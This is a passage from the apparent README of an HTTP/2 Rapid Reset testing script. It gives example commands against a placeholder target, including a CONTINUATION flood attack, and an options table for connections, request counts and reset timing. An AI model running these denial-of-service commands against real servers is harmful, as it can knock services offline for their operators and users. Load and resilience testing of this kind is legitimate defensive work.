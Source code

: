 #### 3. Protocol-Specific Testing
```bash
python3 rapid_reset_test.py https://target.com \
    --window-size 32768 \
    --frame-size 32768 \
    --header-table-size 8192 \
    --enable-push \
    --priority-frames \
    --randomize-streams
```

#### 4. Comprehensive Monitoring Test
```bash
python3 rapid_reset_test.py https://target.com \
    --connections 10 \
    --requests 200 \
    --pattern mixed_pattern \
    --track-latency \
    --track-responses \
    --monitor-memory \
    --verbose \
    --debug \
    --log-file attack.log
```

#### 5. CONTINUATION Flood Attack
```bash
python3 rapid_reset_test.py https://target.com \
    --pattern continuation_flood \
    --requests 50 \
    --random-headers \
    --header-count 20
```

### Complete Command Line Options

#### Connection Settings
| Option | Description | Default |
|--------|-------------|---------|
| `-c, --connections N` | Number of concurrent connections | 1 |
| `--connection-timeout SEC` | Connection timeout in seconds | 10 |
| `--read-timeout SEC` | Read timeout for responses | 5 |
| `--connection-delay SEC` | Delay between connections | 0.0 |

#### Request Settings
| Option | Description | Default |
|--------|-------------|---------|
| `-r, --requests N` | Requests per connection | 100 |
| `--delay SEC` | Delay between HEADERS and RST_STREAM | 0.001 |
| `--request-delay SEC` | Delay between requests | 0.0 |
| `--jitter FACTOR` | Timing randomization factor | 0.0 |
